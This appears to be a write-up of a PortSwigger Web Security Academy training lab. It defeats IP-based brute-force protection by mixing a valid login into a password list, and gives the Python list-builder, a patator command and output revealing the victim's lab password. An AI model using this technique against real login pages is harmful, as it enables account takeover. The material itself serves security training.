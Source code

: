 # Lab 4: Broken brute-force protection, IP block

## Description

This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

-   Your credentials: `wiener:peter`
-   Victim's username: `carlos`
-   [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Solution

The challenge has a logic flaw in its password brute-force protection mechanism that makes it vulnerable to brute-forcing passwords. Given a valid set of credentials `wiener:peter`, determine the password to the account with the username `carlos`.

Navigate to the login page and intercept a login request using BurpSuite to understand its structure.

```http
POST /login HTTP/1.1
Host: ac961f5f1e7ca5598048a6e500ea007d.web-security-academy.net
Cookie: session=KtD0SoPOuQ3DMMXQuZo9OITnqqE8xdZV
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://ac961f5f1e7ca5598048a6e500ea007d.web-security-academy.net
Dnt: 1
Referer: https://ac961f5f1e7ca5598048a6e500ea007d.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=wiener&password=peter
```

The next step is to understand the password brute-force protection mechanism that is in play by answering the following questions:

- After how many failed login attempts does the brute-force protection mechanism kick in and block the IP address?
- Does the mechanism reset an IP address's count if it logs in successfully?
- How does the application determine which IP address to block? Does it go to the actual source IP address first or does it first check the `X-Forwarded-For` HTTP header?

### How Many Failed Logins until Lockout?

Using BurpSuite interceptor, attempt 20 iterative logins and determine after which attempt the IP address was blocked. Use the first 20 passwords from the word list, just in case one is correct.

After 3 failed login attempts, the web application began returning an error indicating too many requests have been made and to try again **in one minute**.

![Pasted image 20210807204402](Pasted%20image%2020210807204402.png)

### Does a Successful Login Reset the Count?

Using BurpSuite interceptor, attempt 4 iterative logins. On the 3rd login attempt, use valid credentials. If the 4th request does not indicate IP address blocking, then a successful login does reset the count.

After executing the attack, the 4th request does not indicate IP address blocking.

![Pasted image 20210807205136](Pasted%20image%2020210807205136.png)

This indicates that the web application resets an IP address's number of failed login attempts whenever it logs in successfully. By interspersing the credentials `wiener:peter` every two entries in the username:password dictionary, the brute-force protection mechanism can be bypassed.

Build the dictionary.

```python
valid_credentials = "wiener:peter"
username = "carlos"
with open("passwords.txt") as passwords:
    with open("credentials.txt", "w") as credentials:
        credentials.write(valid_credentials + "\n")
        for i, password in enumerate(passwords):
            if (i + 1) % 3 == 0:
                credentials.write(valid_credentials + "\n")
            else:
                credentials.write(f"{username}:{password}")
```

Based on successfully logging in with the credentials `wiener:peter`, the indicator of a successful login is a 302 code. The indicator of a failed login is a 200 code, so ignore those. Ensure the brute-force only happens in a single thread so the counter reset can happen properly.

```bash
$ patator http_fuzz url=https://ac3f1ffb1ef3088d80a304de007f005a.web-security-academy.net/login method=POST body='username=COMBO00&password=COMBO01' 0=credentials.txt -t 1 -x ignore:code=200

21:42:26 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-08-07 21:42 CDT
21:42:26 patator    INFO -                                                                              
21:42:26 patator    INFO - code size:clen       time | candidate                          |   num | mesg
21:42:26 patator    INFO - -----------------------------------------------------------------------------
21:42:27 patator    INFO - 302  170:0          0.131 | wiener:peter                       |     1 | HTTP/1.1 302 Found
21:42:29 patator    INFO - 302  170:0          0.121 | wiener:peter                       |     4 | HTTP/1.1 302 Found
21:42:30 patator    INFO - 302  170:0          0.126 | wiener:peter                       |     7 | HTTP/1.1 302 Found
21:42:32 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    10 | HTTP/1.1 302 Found
21:42:34 patator    INFO - 302  170:0          0.119 | wiener:peter                       |    13 | HTTP/1.1 302 Found
21:42:35 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    16 | HTTP/1.1 302 Found
21:42:37 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    19 | HTTP/1.1 302 Found
21:42:39 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    22 | HTTP/1.1 302 Found
21:42:40 patator    INFO - 302  170:0          0.128 | wiener:peter                       |    25 | HTTP/1.1 302 Found
21:42:42 patator    INFO - 302  170:0          0.130 | wiener:peter                       |    28 | HTTP/1.1 302 Found
21:42:44 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    31 | HTTP/1.1 302 Found
21:42:45 patator    INFO - 302  170:0          0.131 | wiener:peter                       |    34 | HTTP/1.1 302 Found
21:42:47 patator    INFO - 302  170:0          0.133 | wiener:peter                       |    37 | HTTP/1.1 302 Found
21:42:48 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    40 | HTTP/1.1 302 Found
21:42:50 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    43 | HTTP/1.1 302 Found
21:42:52 patator    INFO - 302  170:0          0.130 | wiener:peter                       |    46 | HTTP/1.1 302 Found
21:42:53 patator    INFO - 302  170:0          0.128 | wiener:peter                       |    49 | HTTP/1.1 302 Found
21:42:55 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    52 | HTTP/1.1 302 Found
21:42:57 patator    INFO - 302  170:0          0.122 | wiener:peter                       |    55 | HTTP/1.1 302 Found
21:42:58 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    58 | HTTP/1.1 302 Found
21:43:00 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    61 | HTTP/1.1 302 Found
21:43:01 patator    INFO - 302  170:0          0.126 | carlos:jessica                     |    62 | HTTP/1.1 302 Found
21:43:02 patator    INFO - 302  170:0          0.159 | wiener:peter                       |    64 | HTTP/1.1 302 Found
21:43:03 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    67 | HTTP/1.1 302 Found
21:43:05 patator    INFO - 302  170:0          0.131 | wiener:peter                       |    70 | HTTP/1.1 302 Found
21:43:07 patator    INFO - 302  170:0          0.132 | wiener:peter                       |    73 | HTTP/1.1 302 Found
21:43:09 patator    INFO - 302  170:0          0.124 | wiener:peter                       |    76 | HTTP/1.1 302 Found
21:43:11 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    79 | HTTP/1.1 302 Found
21:43:12 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    82 | HTTP/1.1 302 Found
21:43:14 patator    INFO - 302  170:0          0.123 | wiener:peter                       |    85 | HTTP/1.1 302 Found
21:43:16 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    88 | HTTP/1.1 302 Found
21:43:18 patator    INFO - 302  170:0          0.128 | wiener:peter                       |    91 | HTTP/1.1 302 Found
21:43:19 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    94 | HTTP/1.1 302 Found
21:43:21 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    97 | HTTP/1.1 302 Found
21:43:22 patator    INFO - 302  170:0          0.126 | wiener:peter                       |   100 | HTTP/1.1 302 Found
21:43:23 patator    INFO - Hits/Done/Skip/Fail/Size: 35/101/0/0/101, Avg: 1 r/s, Time: 0h 0m 57s
```

The only successful login with the username  `carlos` is the password `jessica`.
